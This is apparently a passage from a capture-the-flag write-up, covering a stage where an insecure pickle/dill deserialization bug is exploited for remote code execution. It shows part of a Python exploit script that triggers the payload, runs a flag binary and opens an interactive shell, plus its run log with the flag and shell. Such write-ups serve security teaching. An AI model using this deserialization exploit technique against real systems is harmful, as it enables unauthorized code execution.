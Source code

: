 Finally, we can trigger the deserialization and get a `/bin/sh` shell using a 'get' command. We can
automate the execution of the SUID flag binary as well to obtain the flag. For further exploration,
we drop into an interactive session.

```python
    # Trigger the RCE.
    log.info('Triggering RCE...')
    c.sendline(b'get logs-' + random_filename)
    c.get_until_prompt()
    c.get_until_prompt()

    # Get the flag.
    log.info('Getting the flag by executing /home/rabbit/flag2.bin')
    log.success('Flag 2:')
    c.sendline('/home/rabbit/flag2.bin')
    c.sendline('echo END_OF_FLAG')
    log.success(c.recvuntil(b'END_OF_FLAG').replace(b'END_OF_FLAG', b''))

    # Drop into an interactive shell.
    log.success('Enjoy your shell!')
    c.interactive()
```

Running the exploit:

```shell
root@42c70e7d708e:/opt/wonderland# ./2_insecure_dill_loads.py
[+] Opening connection to 172.17.0.1 on port 31337: Done
[┤] Initialising connection. This will take a moment...
[*] Moving to the a-shallow-deadend to get the pocket-watch...
[*] Disabling text scroll.
[*] Moving to a-curious-hall to drink the pink-bottle...
[*] Moving to a-fancy-pavillion to eat the fluffy-cake...
[*] Moving to a-mystical-cove to get the looking-glass...
[*] Teleporting to under-a-giant-mushroom to get the golden-hookah...
[*] Teleporting to /opt/wonderland/logs
[*] Generating pickle RCE payload...
[*] Writing payload to 106a07e1-80ea-48e4-80a9-f39b4d957083.item
[*] Triggering RCE...
[*] Getting the flag by executing /home/rabbit/flag2.bin
[+] Flag 2:
[+] TISC{dr4b_4s_a_f00l_as_al00f_a5_A_b4rd}
[+] Enjoy your shell!
[*] Switching to interactive mode

$ id
uid=1000(rabbit) gid=1000(rabbit) groups=1000(rabbit)
$
```

The full exploit can be found in `2_insecure_dill_loads.py`.


### Stage 3: Advice from a Caterpillar
